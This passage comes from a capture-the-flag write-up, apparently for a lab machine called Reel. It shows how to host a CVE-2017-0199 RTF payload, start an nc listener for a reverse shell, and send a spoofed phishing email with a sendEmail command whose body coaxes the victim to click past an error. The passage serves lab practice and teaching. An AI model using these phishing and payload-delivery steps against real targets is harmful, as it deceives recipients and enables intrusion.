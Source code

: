 We host the payload on our kali machine using a standard `python3` webserver and start our listener with `nc -lvnp` on port 9000

![hosted-payload](/assets/Reel/hosted-payload.jpg)

What's left is to send the email to `nico@megabank.com`

### Sending the mail and some deception ;)
We're going to use the `sendEmail` command with a couple flags:
- `-t <RECEPIENT>`
- `-f <SENDER>`
- `-s <SMTP_SERVER>`
- `-u <MAIL_SUBJECT>`
- `-a <PATH_TO_ATTACHMENT>`
- `-m <MESSAGE_BODY>`

Our command is:
```
sendEmail \
-t nico@megabank.com \
-f review@megabank.com \
-s 10.10.10.77 \
-u 'Document for Review' \
-a /opt/CVE-2017-0199/review.rtf \
-m 'Kindly review the attached document. Just press OK if you get an error while opening it and it should be fine.'
```

We try to look non-suspicous as possible. And use a subtle message in the body to have the user click 'OK' if he gets an error message (*which does happen with this exploit*).

![document-error-1](/assets/Reel/document-error-1.jpg)

![document-error-2](/assets/Reel/document-error-2.jpg)
